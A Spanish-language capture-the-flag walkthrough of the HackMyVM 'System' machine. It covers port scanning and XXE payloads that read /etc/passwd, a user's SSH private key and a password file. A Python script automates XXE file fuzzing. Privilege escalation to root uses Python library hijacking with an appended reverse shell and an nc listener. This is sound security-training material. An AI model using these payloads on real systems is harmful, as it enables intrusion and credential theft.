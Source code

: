 ```yaml
---
layout: post
title: System
date: 2022-12-03
categories: ["HMV", "XXE", "File Edit"]
thumbnail: "assets/images/System.png"
---
```


# System [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.109 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.109 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos en la página vemos un panel para registrarnos, pero cuando tratamos de registrarnos nos dice que nuestro usuario ya existe. Si miramos el apartado de `Network` en las opciones de `developer` (inspeccionar elemento) veremos que cuando hacemos la petición para registrarnos se utiliza `XML`, por lo que podemos intentar `XML External Entity`.

`XXE` es una vulnerabilidad que inyecta `XML` malicioso en dichos archivos, vamos a ver cómo podemos explotarlo:

```
<?xml version="1.0" encoding="UTF-8"?>
<details>
    <email>black@cage.com</email>
    <password>blackcage</password>
</details>
```

Como vemos esto es el `XML` normal, pero si buscamos por `payloads` nos encontraremos con muchos ejemplos de lo que podemos hacer, en este caso vamos a ver el fichero `/etc/passwd`:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<details>
    <email>&ent;</email>
    <password>blackcage</password>
</details>
```

Como habéis visto hemos añadido dos cosas nuevas, la segunda línea está definiendo una variable con el nombre `ent` que va a almacenar el contenido del archivo `/etc/passwd`. En la cuarta línea vemos que estamos llamando a la variable con `&ent;` para que así cuando nos vaya a decir que el correo ya existe nos muestre el fichero ya mencionado.

Bien! Podemos mirar archivos de la máquina! Como vimos antes con `NMap` el puerto `22` (`SSH`) está abierto, por lo que me voy a dirigir a la carpeta `.ssh` del único usuario que he visto (`david`) para tratar de ver su `id_rsa`.

Para ello cambiaremos la segunda línea del `XML` para que `ent` almacene dicho fichero:

```
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/david/.ssh/id_rsa"> ]>
```

Bien! Ya tenemos la `id_rsa` de `David`! Aunque hay un problema, si tratamos de entrar con dicha clave nos pide una contraseña, pero no la tenemos.

No pasa nada, vamos a enumerar su directorio personal en busca de un archivo que contenga su contraseña o algo relevante. Para ello creé un `script` en `Python` ya que `BurpSuite` iba bastante lento.

```
import requests

with open("/usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt", "r") as wordlist:
    lines = wordlist.readlines()

    for line in lines:
        line = line.replace("\n", "")
        headers = {
            "Host": "192.168.1.109",
            "User-Agent": "BlackCage",
            "Accept": "*/*",
            "Accept-Language": "en-US,en;q=0.5",
            "Content-Type": "text/plain;charset=UTF-8",
            "Origin": "http://192.168.1.109",
            "Connection": "close",
            "Referer": "http://192.168.1.109/"
        }

        data = f'<?xml version="1.0" encoding="UTF-8"?>\r\n<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/david/{line}"> ]>\r\n<details><email>&ent;</email><password>black123</password></details>'

        r = requests.post("http://192.168.1.109/magic.php", headers=headers, data=data, verify=False)
        
        if str(len(r.content)) != "85":
            print(f"{line} | {lenght}")
```

Vemos que primero abre el archivo [`fuzz-Bo0oM.txt`](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/fuzz-Bo0oM.txt), un diccionario que está presente en el repositorio de [`SecLists`](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/fuzz-Bo0oM.txt). Después de eso lee el archivo y lo almacena en una variable llamada `lines`. Con un `for loop` iteramos por cada elemento de `lines`, cada línea estará almacenada en la variable `line`.

Bien, una vez tenemos lo anterior sólo manda la petición a la web con los parámetros adecuados y con `len()` mide el largo del contenido. Si el largo del contenido no es igual a `85` muestra en pantalla la línea utilizada (el fichero que estamos buscando) y el largo de la página.

Olé! Ya sabemos su funcionamiento, vamos a iniciarlo y a ver qué obtenemos:

```
.profile | 892
.ssh/id_rsa | 2687
.ssh/id_rsa.pub | 653
.viminfo | 786
```

Tras unos segundos vemos que varios archivos aparecen, dos de ellos sabemos que no contienen nada (`.ssh/*`) y el archivo `.profile` no contiene información relevante, pero el fichero `.viminfo` tiene una línea muy interesante:

```
# Password file Created:
'0 1 3 /usr/local/etc/mypass.txt
|4,48,1,3,1648909714,"/usr/local/etc/mypass.txt"
```

Vemos un comentario bastante interesante que nos dice que se creó un fichero `Password`. Vemos una ruta: `/usr/local/etc/mypass.txt`, con el `XXE` antes descubierto vamos a ver el contenido:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///usr/local/etc/mypass.txt"> ]>
<details>
    <email>&ent;</email>
    <password>blackcage</password>
</details>
```

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sat, 03 Dec 2022 16:03:51 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 96

<p align='center'>
  <font color=white size='5pt'>
    h4ck3rd4v!d is already registered!
  </font>
</p>
```

Bien! Ya tenemos la contraseña para el usuario `David` (`david:h4ck3rd4v!d`)!

### Subida de privilegios
Una vez nos hayamos conectado por `SSH` a la máquina víctima tenemos que intentar ser `root`, para ello comencé con enumeración básica, aunque no sirvió de mucho.

Con [`PSPY`](https://github.com/DominicBreuker/pspy) me dispuse a ver los procesos que se ejecutaban en tiempo real y, tras unos minutos de espera, me salió un resultado:

```
2022/12/03 12:13:01 CMD: UID=0    PID=12499  | /bin/sh -c /usr/bin/python3.9 /opt/suid.py
```

Vemos que un `script` en `Python` está siendo ejecutado como `root`, vamos a ver el `script`:

```
from os import system
from pathlib import Path

# Reading only first line
try:
    with open('/home/david/cmd.txt', 'r') as f:
        read_only_first_line = f.readline()
    # Write a new file
    with open('/tmp/suid.txt', 'w') as f:
        f.write(f"{read_only_first_line}")
    check = Path('/tmp/suid.txt')
    if check:
        print("File exists")
        try:
            os.system("chmod u+s /bin/bash")
        except NameError:
            print("Done")
    else:
        print("File not exists")
except FileNotFoundError:
    print("File not exists")
```

Vemos que está importando dos librerías: `os` y `pathlib` de las cuales importará `System` y `Path`. Si continuamos leyendo veremos que abre un archivo en `/home/david` con el nombre de `cmd.txt` y lee sólo la primera línea (y la guarda en una variable).

También abre otro archivo en `/tmp/` con el nombre de `suid.txt` y escribe la línea que antes había leído.

Hace una comprobación, y es que si el fichero `suid.txt` existe intentará cambiar los permisos de `/bin/bash`. Si hay un error al cambiar los permisos mostrará `Done`. Si el fichero `suid.txt` no existe mostrará `File not exists`.

Por último, si el fichero `cmd.txt` no existe no hará nada de lo anterior dicho, sólo mostrará `File not exists`.

Si buscamos por `os.py` (`find / -name os.py 2>/dev/null`) y vemos sus permisos veremos que podemos editarlo, por lo que podemos intentar hacer [`Python Library Hijacking`](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/).

Para ello iremos a [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) y nos copiaremos la Reverse Shell en `Python` (sin `python -c` ni las comillas simples). Una vez hecho lo anterior podemos copiarlo al final del fichero `os.py` para que se inicie automáticamente.

Bien! Ya tenemos todo preparado! Aunque antes nos tenemos que poner en escucha con `NC`, en mi caso utilizaré el puerto `4444`.

- `nc -nlvp 4444`

Enhorabuena! Tras esperar unos minutos conseguimos una Shell como `root`! Qué fácil!
